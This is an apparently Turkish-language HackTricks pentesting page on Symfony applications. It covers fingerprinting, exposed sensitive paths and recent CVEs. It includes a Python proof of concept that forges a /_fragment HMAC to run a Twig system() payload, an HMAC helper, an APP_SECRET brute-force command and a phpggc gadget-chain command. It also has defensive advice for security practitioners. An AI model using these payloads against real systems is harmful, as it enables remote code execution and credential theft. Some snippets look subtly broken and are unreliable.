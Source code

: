 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony, en yaygın kullanılan PHP framework'lerinden biridir ve genellikle kurumsal, e-ticaret ve CMS hedeflerinin değerlendirmelerinde (Drupal, Shopware, Ibexa, OroCRM … hepsi Symfony bileşenlerini içerir) yer alır. Bu sayfa, bir Symfony uygulaması keşfettiğinizde kontrol listenizde bulunması gereken saldırgan ipuçlarını, yaygın yanlış yapılandırmaları ve son güvenlik açıklarını toplar.

> Tarihsel not: Ekosistemin büyük bir kısmı hala **5.4 LTS** dalında çalışıyor (EOL **Kasım 2025**). Tam küçük sürümü her zaman doğrulayın çünkü birçok 2023-2025 güvenlik duyurusu yalnızca yamanmış sürümlerde düzeltildi (örneğin, 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP yanıt başlıkları: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` veya `sf_redirect`, `sf_session`, `MOCKSESSID` ile başlayan çerezler.
* Kaynak kodu sızıntıları (`composer.json`, `composer.lock`, `/vendor/…`) genellikle tam sürümü ortaya çıkarır:
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Sadece Symfony'de bulunan kamuya açık yollar:
* `/_profiler`   (Symfony **Profiler** & hata ayıklama aracı)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (güzel hata sayfaları)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (4.0'dan önceki geliştirme ön kontrolörleri)
* Wappalyzer, BuiltWith veya ffuf/feroxbuster kelime listeleri: `symfony.txt` → `/_fragment`, `/_profiler`, `.env`, `.htaccess` arayın.

### İlginç dosyalar & uç noktalar
| Yol | Neden önemli |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Sıkça yanlış dağıtım → `APP_SECRET`, DB kimlik bilgileri, SMTP, AWS anahtarları sızar |
| `/.git`, `.svn`, `.hg` | Kaynak ifşası → kimlik bilgileri + iş mantığı |
| `/var/log/*.log`, `/log/dev.log` | Web kök yanlış yapılandırması yığın izlerini açığa çıkarır |
| `/_profiler` | Tam istek geçmişi, yapılandırma, hizmet konteyneri, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | ESI/HInclude tarafından kullanılan giriş noktası. `APP_SECRET`'i bildiğinizde kötüye kullanım mümkündür |
| `/vendor/phpunit/phpunit/phpunit` | Erişilebilir ise PHPUnit RCE (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & bazen istisna izlerini sızdırır |

---

## Yüksek Etkili Güvenlik Açıkları (2023-2025)

### 1. APP_SECRET ifşası ➜ RCE via `/_fragment` (aka “secret-fragment”)
* **CVE-2019-18889** başlangıçta, ancak *hala* modern hedeflerde hata ayıklama etkin bırakıldığında veya `.env` açığa çıktığında görünmektedir.
* 32 karakterli `APP_SECRET`'i bildiğinizde, bir HMAC token oluşturun ve rastgele Twig çalıştırmak için dahili `render()` kontrolörünü kötüye kullanın:
```python
# PoC – gizli anahtar gerektirir
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # Twig'de RCE
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Harika bir yazım ve istismar scripti: Ambionics blogu (Kaynaklar'da bağlantılı).

### 2. Windows Process Hijack – CVE-2024-51736
* `Process` bileşeni, Windows'ta `PATH`'ten **önce** geçerli çalışma dizinini aradı. Yazılabilir bir web köküne `tar.exe`, `cmd.exe` vb. yükleyebilen bir saldırgan, `Process`'i tetikleyerek (örneğin, dosya çıkarma, PDF oluşturma) komut yürütme elde eder.
* 5.4.50, 6.4.14, 7.1.7'de yamanmıştır.

### 3. Session-Fixation – CVE-2023-46733
* Kimlik doğrulama koruyucusu, giriş yaptıktan sonra mevcut bir oturum kimliğini yeniden kullandı. Bir saldırgan, kurban kimlik doğrulama yapmadan **önce** çerezi ayarlarsa, giriş sonrası hesabı ele geçirir.

### 4. Twig sandbox XSS – CVE-2023-46734
* Kullanıcı kontrolündeki şablonları (admin CMS, e-posta oluşturucu) açığa çıkaran uygulamalarda `nl2br` filtresi, sandbox'ı atlatmak ve JS enjekte etmek için kötüye kullanılabilir.

### 5. Symfony 1 gadget zincirleri (hala eski uygulamalarda bulunuyor)
* `phpggc symfony/1 system id` komutu, `sfNamespacedParameterHolder` gibi sınıflarda unserialize() gerçekleştiğinde RCE'yi tetikleyen bir Phar yükü üretir. Dosya yükleme uç noktalarını ve `phar://` sarmalayıcılarını kontrol edin.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Zayıf `APP_SECRET` için Bruteforce
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
Eğer `bin/console` `php-fpm` veya doğrudan CLI yüklemesi aracılığıyla erişilebilir ise:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Kötü niyetli Twig şablonunu bir sonraki istekte çalıştırılacak şekilde önbellek dizininde kullanın veya serileştirme araçları kullanın.

---

## Savunma notları
1. **Asla hata ayıklama dağıtmayın** (`APP_ENV=dev`, `APP_DEBUG=1`) üretime; web sunucusu yapılandırmasında `/app_dev.php`, `/_profiler`, `/_wdt`'yi engelleyin.
2. Gizli bilgileri env değişkenlerinde veya `vault/secrets.local.php`'da saklayın, *asla* belge köküne erişilebilen dosyalarda saklamayın.
3. Yaman yönetimini zorunlu kılın – Symfony güvenlik duyurularına abone olun ve en az LTS yaman seviyesini koruyun.
4. Windows'ta çalışıyorsanız, CVE-2024-51736'yı hafifletmek için hemen güncelleyin veya `open_basedir`/`disable_functions` derinlik savunması ekleyin.

---

### Kullanışlı saldırı araçları
* **ambionics/symfony-exploits** – gizli parça RCE, hata ayıklayıcı yollar keşfi.
* **phpggc** – Symfony 1 & 2 için hazır gadget zincirleri.
* **sf-encoder** – `_fragment` HMAC'ı hesaplamak için küçük bir yardımcı (Go uygulaması).

## Referanslar
* [Ambionics – Symfony “secret-fragment” Uzak Kod Yürütme](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Güvenlik Duyurusu – CVE-2024-51736: Windows İşlem Bileşeninde Komut Yürütme Ele Geçirme](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
